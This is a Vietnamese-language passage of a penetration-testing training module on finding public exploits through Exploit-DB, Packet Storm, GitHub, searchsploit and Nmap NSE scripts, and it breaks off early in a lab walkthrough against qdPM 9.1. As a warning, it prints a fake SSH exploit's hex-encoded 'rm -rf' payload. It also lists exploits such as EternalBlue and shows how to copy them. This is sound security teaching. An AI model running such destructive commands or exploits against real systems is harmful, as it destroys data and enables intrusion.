

# Locating Public Exploit

# Locating Public Exploits

---

Trong mô-đun học tập này, chúng ta sẽ học các nội dung sau:

- Bắt đầu với các mã khai thác công khai
- Các nguồn mã khai thác trực tuyến
- Các nguồn mã khai thác ngoại tuyến
- Khai thác một mục tiêu

Một **mã khai thác** là một chương trình hoặc đoạn mã có khả năng lợi dụng lỗi hoặc lỗ hổng của hệ thống mục tiêu. Mã khai thác có thể gây ra nhiều hậu quả khác nhau, chẳng hạn như làm gián đoạn dịch vụ (DoS), thực thi mã từ xa (RCE), hoặc leo thang đặc quyền (privesc).

Một quy trình phổ biến trong hoạt động kiểm thử xâm nhập là sử dụng các mã khai thác được công bố công khai. Vì vậy, khả năng tìm kiếm và lựa chọn mã khai thác phù hợp trở thành một kỹ năng cực kỳ quan trọng khi phát sinh nhu cầu này.

Trong mô-đun này, chúng ta sẽ tập trung vào các nguồn trực tuyến khác nhau lưu trữ mã khai thác cho những lỗ hổng đã được công bố rộng rãi. Đồng thời, chúng ta cũng sẽ tìm hiểu các công cụ ngoại tuyến có sẵn trong Kali Linux, nơi chứa các mã khai thác được lưu trữ cục bộ.

Khi đã nắm được cách tìm các mã khai thác công khai, chúng ta sẽ thu hẹp phạm vi tìm kiếm để chọn ra những mã khai thác phù hợp, có thể được sử dụng để giành quyền truy cập vào một hệ thống. Ở cuối mô-đun này, chúng ta sẽ tiến hành liệt kê thông tin của mục tiêu nhằm xác định mã khai thác nào có thể được sử dụng để xâm nhập hệ thống đó.

---

# 12.1. Bắt đầu

---

Learning Unit này bao gồm các Learning Objectives sau:

- Hiểu được rủi ro của việc thực thi các exploit không đáng tin cậy
- Hiểu được tầm quan trọng của việc phân tích mã exploit trước khi thực thi

Trong Learning Unit này, chúng ta sẽ xem xét một public exploit độc hại. Điều quan trọng là phải hiểu các rủi ro liên quan đến việc thực thi các exploit không rõ nguồn gốc, đặc biệt là khi chúng ta không phân tích xem mã exploit đó thực sự làm gì.

---

## 12.1.1. Lời cảnh báo

---

Chúng ta phải hiểu rằng việc tải xuống và chạy các public exploit có thể gây nguy hiểm nghiêm trọng cho một hệ thống hoặc môi trường. Với điều này trong tâm trí, chúng ta cần đọc và hiểu cẩn thận mã nguồn trước khi thực thi để đảm bảo không có tác động tiêu cực.

Hãy lấy 0pen0wn, một exploit được công bố như là remote exploit cho SSH, làm ví dụ. Khi đọc mã nguồn, chúng tôi nhận thấy rằng nó yêu cầu quyền “root”, điều này rất đáng ngờ.

```c
if (geteuid()) {
	puts("Root is required for raw sockets, etc.");return1;
}
```

                           Listing 1 – Malicious SSH exploit yêu cầu quyền root trên máy tấn công

Việc kiểm tra sâu hơn payload đã cho thấy một mảng `jmpcode` khá thú vị.

```c
[...]
char jmpcode[] =
"\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f"
"\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26";
[...]
```

                                 Listing 2 – Payload của malicious SSH exploit được mã hóa hex

Mặc dù nó được che giấu như shellcode, `jmpcode` (mảng ký tự) thực chất là một chuỗi được mã hóa hex chứa một lệnh shell độc hại.

```bash
kali@kali:~$ python3

>>> jmpcode = [
..."\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f"
..."\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26"]
>>>print(jmpcode)
['rm -rf ~ /* 2> /dev/null &']
>>>
```

                 Listing 3 – Payload của malicious SSH exploit sẽ xóa sạch máy tấn công của bạn

Chỉ với một lệnh duy nhất này, hệ thống file UNIX-based của kẻ tấn công dự định thực hiện exploit sẽ bị xóa sạch. Sau đó, chương trình sẽ kết nối tới một public IRC server để thông báo hành động của người dùng ra toàn thế giới, khiến exploit độc hại này trở nên cực kỳ nguy hiểm và có thể gây xấu hổ nghiêm trọng.

Trước mối nguy hiểm này, trong Module này chúng ta sẽ dựa vào các exploit repository đáng tin cậy hơn.

Các online resource được đề cập trong Module này có phân tích mã exploit được gửi lên trước khi lưu trữ chúng trực tuyến; tuy nhiên, việc tự chúng ta đọc kỹ mã nguồn để có cái nhìn tổng quát về những gì exploit sẽ thực hiện khi chạy vẫn là rất quan trọng. Và nếu chúng ta chưa thành thạo lập trình, đây cũng là một cách rất tốt để cải thiện kỹ năng đọc mã nguồn.

Các exploit được viết bằng ngôn ngữ lập trình mức thấp và yêu cầu compilation thường được cung cấp cả ở dạng source code và binary. Mặc dù việc compile có thể rườm rà, source code vẫn dễ kiểm tra hơn so với binary (nếu không có sự hỗ trợ của các kỹ năng và công cụ chuyên biệt).

Nếu việc kiểm tra mã nguồn hoặc compilation quá phức tạp, chúng ta có thể thiết lập một môi trường virtual machine với các snapshot sạch để làm nơi thử nghiệm exploit, hay còn gọi là sandbox. Các snapshot trong một môi trường mới được thiết lập cho phép dễ dàng khôi phục lại hệ thống nếu bị nhiễm mã độc hoặc nếu exploit làm cho hệ thống bị hỏng.

---

# 12.2. Online Exploit Resources

---

Learning Unit này bao gồm các Learning Objectives sau:

- Truy cập nhiều online exploit resource khác nhau
- Phân biệt giữa các online exploit resource khác nhau
- Hiểu được các rủi ro giữa các online exploit resource
- Sử dụng Google search operators để tìm các public exploit

Sau giai đoạn information gathering và enumeration của một penetration test, chúng ta có thể đối chiếu (cross-check) các phần mềm đã phát hiện để tìm những vulnerability đã được biết đến, nhằm cố gắng xác định các exploit đã được công bố.

Nhiều online resource khác nhau lưu trữ mã exploit và cung cấp miễn phí cho cộng đồng. Trong phần này, chúng ta sẽ đề cập đến những online resource phổ biến nhất. Hai resource đầu tiên mà chúng ta sẽ xem xét thường tiến hành kiểm tra mã exploit được gửi lên và loại bỏ những exploit bị đánh giá là giả mạo hoặc độc hại.

---

## **12.2.1. The Exploit Database**

---

The Exploit Database (thường được gọi là Exploit-DB hoặc EDB) là một dự án được duy trì bởi OffSec. Đây là một kho lưu trữ miễn phí các public exploit, được thu thập thông qua các submission, mailing list và các public resource.



                                                     Figure 1: Trang chủ của The Exploit Database

Hãy dành một chút thời gian để phân tích trang chủ. Theo mặc định, danh sách được sắp xếp với exploit mới nhất ở trên cùng. Các trường sẽ được đề cập được làm nổi bật trong hình ảnh ở trên.

Trường **D** là một cách nhanh để chúng ta tải file exploit.

Trường **A** liệt kê các file của application bị tổn thương tương ứng với từng exploit, mà chúng ta có thể tải về để nghiên cứu và thử nghiệm (nếu có).

Trường **V** đánh dấu liệu exploit đã được verified hay chưa. Các exploit có dấu check verified đã được review, thực thi và kết luận là exploit hoạt động được. Những exploit này được review bởi các thành viên đáng tin cậy, qua đó tăng thêm sự đảm bảo rằng exploit là an toàn và có chức năng.

Trường **Title** thường cung cấp tên application bị tổn thương cùng với phiên bản tương ứng và chức năng của exploit.

Trường **Type** chỉ định exploit thuộc một trong các loại sau: dos, local, remote, hoặc webapp.

Trường **Platform** chỉ định loại hệ thống bị ảnh hưởng bởi exploit. Điều này có thể là operating system, hardware, hoặc thậm chí là các dịch vụ ngôn ngữ lập trình như PHP.

Trường cuối cùng chỉ định **Author** của exploit.

Hãy truy cập vào một exploit để lấy thêm thông tin. Trong phần minh họa này, chúng ta sẽ truy cập m1k1o's Blog v.10 - Remote Code Execution (RCE) (Authenticated).


                      Figure 2: m1k1o's Blog v.10 - Remote Code Execution (RCE) (Authenticated)

Mỗi exploit có một ID duy nhất (một giá trị số), được gọi là EDB-ID, và cũng được đặt ở cuối URL của trang exploit tương ứng. Các Common Vulnerabilities and Exposures (CVE) liên quan mà exploit tác động tới cũng được liệt kê. Bên dưới các trường thông tin mà chúng ta đã phân tích trước đó là phần nội dung của mã exploit. Chúng ta có thể sử dụng website Exploit-DB theo cách này để thực hiện việc review mã nhanh trước khi tải exploit về.

Các bản cập nhật của Exploit Database được thông báo thông qua Twitter và RSS feeds.

---

## 12.2.2. Packet Storm

---

Packet Storm là một website về information security, cung cấp các thông tin cập nhật về security news, exploit và tool (các tool được công bố bởi security vendor) phục vụ cho mục đích giáo dục và testing.


                                                               Figure 3: Trang chủ Packet Storm

Tương tự như các online resource đã đề cập trước đó, Packet Storm cũng đăng các bản cập nhật lên Twitter và cung cấp một RSS feed.

---

## **12.2.3. GitHub**

---

GitHub là một nền tảng lưu trữ mã nguồn trực tuyến phục vụ cho version control và collaboration. Nền tảng này cho phép bất kỳ ai cũng có thể tạo và chia sẻ code, bao gồm cả exploit.


                                                                    Figure 4: Trang chủ GitHub

Do tính chất mở của nó, việc sử dụng exploit từ GitHub tiềm ẩn rủi ro bảo mật rất lớn và cần hết sức thận trọng. Không giống như hai resource trước đó đã đề cập, các GitHub repository có thể được tạo bởi bất kỳ ai và được phân phối mà không có sự giám sát. Ví dụ, gần đây một người dùng đã tweet cảnh báo rằng bất kỳ ai thực thi một exploit độc hại cụ thể được lưu trữ trên GitHub sẽ bị nhiễm backdoor thay vì khai thác được mục tiêu.


                                                 Figure 5: Cảnh báo về malicious GitHub exploit

Điều này không có nghĩa là tất cả các GitHub repository đều độc hại, nhưng tất cả đều phải được đối xử với sự thận trọng. Một lợi ích của việc sử dụng GitHub như một exploit resource là tốc độ mà exploit có thể được cung cấp. Các thành viên trong cộng đồng security có thể tạo proof-of-concept code và chia sẻ nó gần như ngay khi các vulnerability mới xuất hiện.

OffSec có một GitHub account, nơi chúng ta có thể tìm thấy nhiều repository khác nhau như exploitdb-bin-sploits, chứa các exploit đã được pre-compiled để dễ dàng thực thi.


                                                                   Figure 6: OffSec GitHub

---

## **12.2.4. Google Search Operators**

---

Ngoài các website riêng lẻ đã được đề cập ở trên, chúng ta có thể tìm kiếm thêm các site lưu trữ exploit bằng cách sử dụng các search engine phổ biến.

Chúng ta có thể bắt đầu tìm exploit bằng cách sử dụng phiên bản của một phần mềm cụ thể, theo sau là từ khóa “exploit”, và kết hợp thêm các search operator khác nhau (như những operator được sử dụng bởi Google search engine) để thu hẹp phạm vi tìm kiếm. Việc thành thạo các advanced operator này sẽ giúp chúng ta tùy chỉnh kết quả để tìm chính xác những gì mình đang cần.

Ví dụ, chúng ta có thể sử dụng search query sau để tìm các vulnerability ảnh hưởng đến trình duyệt Microsoft Edge và giới hạn kết quả chỉ còn những exploit được lưu trữ trên website Exploit Database.

```bash
kali@kali:~$ firefox --search"Microsoft Edge site:exploit-db.com"
```

                Listing 4 – Sử dụng Google để tìm exploit của Microsoft Edge trên exploit-db.com

Một số search operator khác có thể được sử dụng để tinh chỉnh kết quả bao gồm **inurl**, **intext** và **intitle**.

*Hãy hết sức thận trọng khi sử dụng exploit từ các resource không được kiểm duyệt (non-curated resources).*

---

# **12.3. Offline Exploit Resources**

---

Learning Unit này bao gồm các Learning Objectives sau:

- Truy cập nhiều Exploit Framework khác nhau
- Sử dụng SearchSploit
- Sử dụng Nmap NSE Scripts

Trong quá trình thực hiện một penetration test, việc có Internet access không phải lúc nào cũng được đảm bảo. Nếu quá trình đánh giá diễn ra trong một môi trường bị cô lập, bản phân phối Kali Linux đi kèm với nhiều tool khác nhau, cho phép truy cập exploit ở chế độ offline.

---

## 12.3.1. Exploit Frameworks

---

Exploit framework là một gói phần mềm chứa các exploit đáng tin cậy, cho phép dễ dàng thực thi nhằm vào một target. Các framework này có định dạng chuẩn hóa để cấu hình exploit và cho phép truy cập exploit cả ở chế độ online lẫn offline. Phần này sẽ đề cập đến một số exploit framework phổ biến.

Metasploit là một framework rất mạnh, được xây dựng nhằm hỗ trợ việc phát triển và thực thi exploit. Nó được tạo ra bởi H D Moore vào năm 2003 và hiện thuộc sở hữu của Rapid7. Framework này cho phép thực thi dễ dàng các exploit được tích hợp sẵn với rất ít thiết lập cấu hình. Metasploit có phiên bản community miễn phí và phiên bản pro trả phí. Chúng ta sẽ đề cập chi tiết về Metasploit trong một Module sau, nhưng điều quan trọng là cần biết đến exploit framework này.

Core Impact là một exploit framework khác, thuộc sở hữu của HelpSystems và không có phiên bản miễn phí. Framework này có thể tự động hóa quá trình testing, liên kết với các vulnerability scanner, thực hiện các phishing campaign hoàn chỉnh, và kiểm tra lại các hệ thống đã bị khai thác để xác minh rằng việc remediation đã được hoàn tất sau một penetration test.

Canvas được phát triển bởi Immunity, là một exploit framework khác. Sau khi mua sản phẩm, các exploit sẽ được cập nhật định kỳ hàng tháng.

The Browser Exploitation Framework (BeEF) là một penetration testing tool tập trung vào các client-side attack được thực thi bên trong web browser.

Chúng ta đã đề cập đến một số exploit framework phổ biến trong penetration testing. Mặc dù chỉ mô tả ngắn gọn từng framework, việc nắm được các resource có sẵn trong các exploit framework này là rất giá trị.

---

## 12.3.2. SearchSploit

---

Exploit Database cung cấp một bản sao lưu trữ (archive) có thể tải về, chứa toàn bộ mã exploit được lưu trữ. Archive này được cài sẵn mặc định trong Kali thông qua package **exploitdb**. Chúng tôi khuyến nghị nên cập nhật package này trước mỗi lần assessment để đảm bảo các exploit mới nhất được cài đặt. Package có thể được cập nhật bằng các lệnh sau:

```bash
kali@kali:~$sudo apt update &&sudo apt install exploitdb
[sudo] passwordfor kali:
...
The following packages will be upgraded:
  exploitdb
...
Setting up exploitdb (20220526-0kali1) ...
...
```

                                        Listing 5 – Cập nhật package exploitdb từ Kali Linux repositories

Lệnh trên sẽ cập nhật bản sao cục bộ của Exploit Database archive tại đường dẫn **/usr/share/exploitdb/**. Thư mục này được chia thành hai phần chính là **exploits** và **shellcodes**. Thư mục **/usr/share/exploitdb/** chứa các file CSV cho từng thư mục exploits và shellcodes. Mỗi file CSV chứa thông tin của tất cả các file trong các thư mục con tương ứng. Các file CSV này chứa những thông tin tương tự như trên website Exploit DB, chẳng hạn như EDB-ID, title, author, platform và các thông tin khác đã được đề cập trước đó.

```bash
kali@kali:~$ls -1 /usr/share/exploitdb/
exploits
files_exploits.csv
files_shellcodes.csv
shellcodes
```

     Listing 6 – Liệt kê hai phần chính trong thư mục archive cùng với các file database tham chiếu

Khi truy cập vào thư mục **exploits**, chúng ta sẽ thấy nhiều thư mục con chứa toàn bộ exploit. Các thư mục con này được phân loại dựa trên operating system, architecture, scripting language, v.v. Ví dụ, thư mục **linux** chứa tất cả các exploit liên quan đến Linux.

```bash
kali@kali:~$ls -1 /usr/share/exploitdb/exploits
aix
alpha
android
arm
ashx
asp
aspx
atheos
beos
bsd
bsd_x86
cfm
cgi
freebsd
freebsd_x86
...
```

                                             Listing 7 – Liệt kê nội dung của thư mục exploits

Việc tìm kiếm thủ công trong Exploit Database hoàn toàn không lý tưởng, đặc biệt khi archive chứa một số lượng exploit rất lớn. Đây chính là lúc utility **searchsploit** trở nên hữu ích.

Chúng ta có thể chạy searchsploit từ command line mà không cần tham số nào để hiển thị cách sử dụng:

```bash
kali@kali:~$ searchsploit
  Usage: searchsploit [options] term1 [term2] ... [termN]
...
```

                                                     Listing 8 – Cú pháp lệnh searchsploit

Như các ví dụ tích hợp sẵn cho thấy, searchsploit cho phép chúng ta tìm kiếm trong toàn bộ archive và hiển thị kết quả dựa trên nhiều tùy chọn tìm kiếm khác nhau được cung cấp dưới dạng argument.

```
==========
 Examples
==========
  searchsploit afd windowslocal
  searchsploit -t oracle windows
  searchsploit -p39446
  searchsploit linux kernel3.2 --exclude="(PoC)|/dos/"
  searchsploit -s Apache Struts2.0.0
  searchsploit linuxreverse password
  searchsploit -j55555 | json_pp

  For more examples, see the manual: https://www.exploit-db.com/searchsploit
```

                                                       Listing 9 – Các ví dụ lệnh searchsploit

Các option cho phép chúng ta thu hẹp phạm vi tìm kiếm, thay đổi định dạng output, cập nhật package exploitdb, và nhiều chức năng khác.

```
=========
 Options
=========
## Search Terms
   -c, --case     [Term]      Thực hiện tìm kiếm phân biệt chữ hoa/chữ thường (mặc định là không phân biệt)
   -e, --exact    [Term]      Thực hiện so khớp CHÍNH XÁC và theo thứ tự trên title của exploit (mặc định là ANDtrên từng term) [ngầm định"-t"]
                                ví dụ:"WordPress 4.1" sẽ không khớp với"WordPress Core 4.1")
   -s, --strict               Thực hiện tìm kiếm strict, yêu cầu giá trị nhập vào phải tồn tại, vô hiệu hóa fuzzy search cho khoảng version
                                ví dụ:"1.1" sẽ không được phát hiện trong"1.0 < 1.3")
   -t, --title    [Term]      Chỉ tìm trong title của exploit (mặc định là tìm trong title VÀ đường dẫn file)
       --exclude="term"       Loại bỏ các giátrị khỏi kết quả. Có thể dùng"|" để nối nhiều giátrị
                                ví dụ: --exclude="term1|term2|term3"

## Output
   -j, --json     [Term]      Hiển thị kết quả ở định dạng JSON
   -o, --overflow [Term]      Cho phép title của exploittràn khỏi cột hiển thị
   -p, --path     [EDB-ID]    Hiển thị đường dẫn đầy đủ tới exploit (và sao chép đường dẫn vào clipboard nếu có thể)
   -v, --verbose              Hiển thị thêm thông tin trong output
   -w, --www      [Term]      Hiển thị URL tới Exploit-DB.com thay vì đường dẫn cục bộ
       --id                   Hiển thị giátrị EDB-ID thay vì đường dẫn cục bộ
       --colour               Tắt highlight màu trong kết quả tìm kiếm
...
```

                                     Listing 10 – Menu trợ giúp các option của searchsploit

Cuối cùng, phần **Notes** trong menu trợ giúp cung cấp một số mẹo tìm kiếm hữu ích.

```
=======
 Notes
=======
 * Có thể sử dụng bất kỳ số lượng search term nào
 * Theo mặc định, search term không phân biệt chữ hoa/chữ thường, thứ tự không quan trọng và sẽ tìm trong các khoảng version
   * Dùng '-c' nếu muốn giảm kết quả bằng cách tìm kiếm phân biệt chữ hoa/chữ thường
   * Và/hoặc '-e' nếu muốn lọc kết quả bằng so khớp chính xác
   * Và/hoặc '-s' nếu muốn tìm chính xác version
 * Dùng '-t' để loại bỏ đường dẫn file nhằm lọc kết quả
   * Loại bỏ false positive (đặc biệt khi tìm kiếm bằng số, ví dụ version)
 * Khi dùng '--nmap', thêm '-v' (verbose) sẽ tìm được nhiều tổ hợp hơn
 * Khi cập nhật hoặc hiển thị trợ giúp, các search term sẽ bị bỏ qua
```

                                              Listing 11 – Ghi chú trợ giúp của searchsploit

Ví dụ, chúng ta có thể tìm tất cả các remote exploit hiện có nhắm vào dịch vụ SMB trên hệ điều hành Windows với cú pháp sau:

```bash
kali@kali:~$ searchsploit remote smb microsoft windows

---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft DNS RPC Service -'extractQuotedChar()' Remote Overflow'SMB' (MS07-029) (Metasploit)                             | windows/remote/16366.rb
Microsoft Windows -'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (MS17-010)   | windows/remote/43970.rb
Microsoft Windows -'SMBGhost' Remote Code Execution                                                                        | windows/remote/48537.py
Microsoft Windows -'srv2.sys' SMB Code Execution (Python) (MS09-050)                                                       | windows/remote/40280.py
Microsoft Windows -'srv2.sys' SMB Negotiate ProcessID Function Table Dereference (MS09-050)                                | windows/remote/14674.txt
Microsoft Windows -'srv2.sys' SMB Negotiate ProcessID Function Table Dereference (MS09-050) (Metasploit)                   | windows/remote/16363.rb
Microsoft Windows - SMB Relay Code Execution (MS08-068) (Metasploit)                                                        | windows/remote/16360.rb
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)                                               | windows/dos/41891.rb
Microsoft Windows - SmbRelay3 NTLM Replay (MS08-068)                                                                        | windows/remote/7125.txt
Microsoft Windows 2000/XP - SMB Authentication Remote Overflow                                                              | windows/remote/20.txt
Microsoft Windows 2003 SP2 -'ERRATICGOPHER' SMB Remote Code Execution                                                      | windows/remote/41929.py
Microsoft Windows 2003 SP2 -'RRAS' SMB Remote Code Execution                                                               | windows/remote/44616.py
Microsoft Windows 7/2008 R2 -'EternalBlue' SMB Remote Code Execution (MS17-010)                                            | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 -'EternalBlue' SMB Remote Code Execution (MS17-010)                        | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) -'EternalBlue' SMB Remote Code Execution (MS17-010)                                  | windows_x86-64/remote/42030.py
Microsoft Windows 95/Windowsfor Workgroups -'smbclient' Directory Traversal                                               | windows/remote/20371.txt
Microsoft Windows NT 4.0 SP5 / Terminal Server 4.0 -'Pass the Hash' with Modified SMB Client                               | windows/remote/19197.txt
Microsoft Windows Server 2008 R2 (x64) -'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010)                               | windows_x86-64/remote/41987.py
Microsoft Windows Vista/7 - SMB2.0 Negotiate Protocol Request Remote Blue Screen of Death (MS07-063)                        | windows/dos/9594.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

             Listing 12 – Sử dụng searchsploit để liệt kê các remote Windows SMB exploit hiện có

Các exploit chứa các search parameter sẽ được liệt kê trong output. Để minh họa, giả sử chúng ta muốn sử dụng hai exploit được tô nổi bật ở trên trong quá trình engagement. Hãy giả định rằng chúng ta đã enumerate được hai SMB server bị tổn thương bởi SMBGhost và EternalBlue cho mục đích minh họa này.

Chúng ta có thể sao chép một exploit vào thư mục làm việc hiện tại bằng option **`-m`** nếu cần chỉnh sửa nó. Một lợi ích của việc sao chép exploit vào thư mục làm việc hiện tại là việc tổ chức các exploit được sử dụng trong một engagement sẽ dễ dàng hơn và có thể liên kết chúng với các hệ thống đang được kiểm thử.

Tất cả các local exploit sẽ bị ghi đè khi một package exploitdb mới được phát hành, vì vậy việc chỉnh sửa exploit ngay tại vị trí gốc của chúng sẽ khiến chúng ta mất các thay đổi đó.

Hãy sao chép hai exploit bằng option **`-m`**. Chúng ta có thể làm điều này bằng cách sử dụng đường dẫn hoặc EDB-ID của các exploit đó, thông tin này có thể tìm thấy trong tên đường dẫn của chúng.

```bash
kali@kali:~$ searchsploit -m windows/remote/48537.py

  Exploit: Microsoft Windows -'SMBGhost' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48537
     Path: /usr/share/exploitdb/exploits/windows/remote/48537.py
File Type: Python script, ASCII text executable, with very long lines (343)

Copied to: /home/kali/48537.py
```

```bash
kali@kali:~$ searchsploit -m 42031
  Exploit: Microsoft Windows 7/2008 R2 -'EternalBlue' SMB Remote Code Execution (MS17-010)
      URL: https://www.exploit-db.com/exploits/42031
     Path: /usr/share/exploitdb/exploits/windows/remote/42031.py
File Type: Python script, ASCII text executable

Copied to: /home/kali/42031.py
```

          Listing 13 – Các exploit được sao chép vào thư mục làm việc hiện tại bằng searchsploit

Các exploit mà chúng ta cần hiện đã được sao chép vào thư mục làm việc hiện tại. Lần thực thi lệnh đầu tiên sao chép exploit bằng đường dẫn file, và lần thực thi lệnh thứ hai sao chép exploit bằng EDB-ID của nó.

---

## 12.3.3. Nmap NSE Scripts

---

Nmap là một trong những tool phổ biến nhất dùng cho enumeration. Một tính năng rất mạnh của tool này là **Nmap Scripting Engine (NSE)**, đúng như tên gọi của nó, cho phép tự động hóa nhiều tác vụ khác nhau thông qua việc sử dụng script.

Bên cạnh các exploit service, NSE đi kèm với nhiều script khác nhau để enumerate, brute force, fuzz và detect. Danh sách đầy đủ các script do NSE cung cấp có thể được tìm thấy tại **/usr/share/nmap/scripts**. Sử dụng grep để nhanh chóng tìm kiếm từ “Exploits” trong các NSE script sẽ trả về nhiều kết quả.

```bash
kali@kali:~$ grep Exploits /usr/share/nmap/scripts/*.nse
/usr/share/nmap/scripts/clamav-exec.nse:Exploits ClamAV servers vulnerable to unauthenticated clamav comand execution.
/usr/share/nmap/scripts/http-awstatstotals-exec.nse:Exploits a remote code execution vulnerabilityin Awstats Totals 1.0 up to 1.14
/usr/share/nmap/scripts/http-axis2-dir-traversal.nse:Exploits a directory traversal vulnerabilityin Apache Axis2 version 1.4.1 by
/usr/share/nmap/scripts/http-fileupload-exploiter.nse:Exploits insecure file upload formsin web applications
/usr/share/nmap/scripts/http-litespeed-sourcecode-download.nse:Exploits a null-byte poisoning vulnerabilityin Litespeed Web Servers 4.0.x
...
```

                                       Listing 14 – Liệt kê các NSE script chứa từ “Exploits”

Chúng ta có thể hiển thị thông tin của một NSE script cụ thể bằng cách chạy nmap với option **--script-help** theo sau là tên file script. Hãy phân tích một ví dụ với lệnh **nmap --script-help=clamav-exec.nse**.

```bash
kali@kali:~$ nmap --script-help=clamav-exec.nse
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-02 16:23 EDT

clamav-exec
Categories: exploit vuln
https://nmap.org/nsedoc/scripts/clamav-exec.html
  Exploits ClamAV servers vulnerable to unauthenticated clamav comand execution.

  ClamAV server 0.99.2, and possibly other previous versions, allow the execution
  of dangerous service commands without authentication. Specifically, thecommand'SCAN'
  may be used to list system files and thecommand'SHUTDOWN' shut downs the
  service. This vulnerability was discovered by Alejandro Hernandez (nitr0us).

  This script without argumentstest the availability of thecommand'SCAN'.

  Reference:
  * https://twitter.com/nitr0usmx/status/740673507684679680
  * https://bugzilla.clamav.net/show_bug.cgi?id=11585
```

                                 Listing 15 – Sử dụng Nmap NSE để lấy thông tin về một script

Phần này cung cấp thông tin về vulnerability cũng như các external information resource liên quan. Việc kiểm tra xem có tồn tại một Nmap NSE script cho một product cụ thể hay không là điều rất đáng làm.

---

# 12.4. Exploiting a Target

---

Learning Unit này bao gồm các Learning Objectives sau:

- Tuân theo một penetration test workflow cơ bản để enumerate một target system
- Khai thác hoàn toàn một machine có vulnerability đối với các public exploit
- Tìm ra các exploit phù hợp cho một target system
- Thực thi một public exploit để giành được một limited shell trên target host

Với tất cả các resource đã được đề cập, hãy minh họa cách điều này sẽ diễn ra trong một kịch bản thực tế. Chúng ta sẽ tấn công dedicated Linux server của mình, server này đang host một application có vulnerability với một public exploit.

---

## 12.4.1. Putting It Together

---

Phần minh họa này sẽ trình bày toàn bộ quá trình khai thác một remote target. Remote host có địa chỉ IP là **`192.168.50.11`**, và máy Kali client có địa chỉ IP là **`192.168.50.129`**. Một số bước enumeration phổ biến sẽ được lược bỏ nhằm giữ cho độ dài của phần này ở mức tối thiểu.

Phần này sẽ sử dụng **PublicExploitsWalkthrough** trong mục Resources bên dưới. Để làm theo, hãy khởi động exercise host trước khi tiếp tục.

Đầu tiên, chúng ta scan target để tìm các port và service đang mở, và phát hiện rằng port **`22`** và **`80`** đang mở. SSH nhìn chung không dễ bị khai thác, vì vậy chúng ta sẽ bỏ qua và kiểm tra web service. Hãy mở một web browser và truy cập tới địa chỉ của target.

Có vẻ như website này thuộc về một công ty phát triển artificial intelligence. Khi xem xét nội dung web, chúng ta phát hiện một số thông tin nhân viên cùng với e-mail của họ trên trang **About Us** của công ty.


        Figure 7: Trang About Us tiết lộ một số nhân viên, e-mail của họ và năm họ gia nhập công ty

Thông tin nhân viên hiện tại không hữu ích cho chúng ta và chúng ta cũng không tìm thấy vulnerability hay vấn đề bảo mật nào khác trên website. Hãy sử dụng một web directory enumeration tool để scan xem có thư mục ẩn nào trên web server hay không.

Sau khi chạy tool enumeration thư mục, chúng ta phát hiện một thư mục project trên website.


                                                        Figure 8: Website có một login portal

Website có một login portal với tên **AI Project Management Portal**. Bên dưới cửa sổ đăng nhập, chúng ta sẽ thấy web application và phiên bản là **“qdPM 9.1”**. Trong trường hợp không thể lấy được phiên bản theo cách này, chúng ta cũng có thể kiểm tra source code của webpage để xác định web application và version của nó.

```html
<divclass="copyright">
<ahref="http://qdpm.net"target="_blank">qdPM 9.1</a><br /> Copyright&copy; 2022<ahref="http://qdpm.net"target="_blank">qdpm.net</a>
</div>
```

                                           Listing 16 – Phiên bản hiển thị trong source code

Web application và version của nó nằm gần cuối trang source code. Qua điều tra thêm, chúng ta có thể xác định rằng đây là một phần mềm quản lý dự án miễn phí, chạy trên nền web.

Với phát hiện mới này, chúng ta sẽ tìm kiếm trên Exploit DB một remote exploit cho **`“qdPM 9.1”`**, và kết quả trả về một vài exploit liên quan.


                                                        Figure 9: Chi tiết exploit được hiển thị

